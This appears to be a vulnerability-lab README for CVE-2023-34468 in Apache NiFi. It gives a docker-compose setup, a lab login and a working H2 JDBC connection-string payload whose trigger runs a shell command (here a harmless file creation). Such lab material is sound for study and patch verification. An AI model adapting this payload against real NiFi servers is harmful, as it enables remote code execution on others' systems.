




# Apache NiFi Code Injection with Database Services using H2 (CVE-2023-34468)

## Introduction

The DBCPConnectionPool and HikariCPConnectionPool Controller Services in Apache NiFi 0.0.2 through 1.21.0 allow an authenticated and authorized user to configure a Database URL with the H2 driver that enables custom code execution.

## Affected Version

Apache NiFi 0.0.2 - 1.21.0

## Setup && Poc

Run

```bash
docker-compose up
```

and access to `https://localhost:8443`, login with

```
user: root
password: ctsBtRBKHRAx69EqUghvvgEvjnaLjFEB
```

open `NiFi Settings` on the top right, click `MANAGEMENT CONTROLLER SERVICES`, add a new `DBCPConnectionPool` services,



configure with

```
Database Connection URL: jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '//javascript
java.lang.Runtime.getRuntime().exec("touch /tmp/trganda")'
Database Driver Class Name: org.h2.Driver
Database Driver Location(s): file:///opt/nifi/nifi-toolkit-current/lib/h2-2.1.214.jar
```
after that, click `Apply` to save.

Open the setting of the created `DBCPConnectionPool` services again, click `Verify` to trigger the `getConnection`, and leading command execution.



The `/tmp/trganda` will be create.





## References

1. https://nifi.apache.org/security.html#CVE-2023-34468

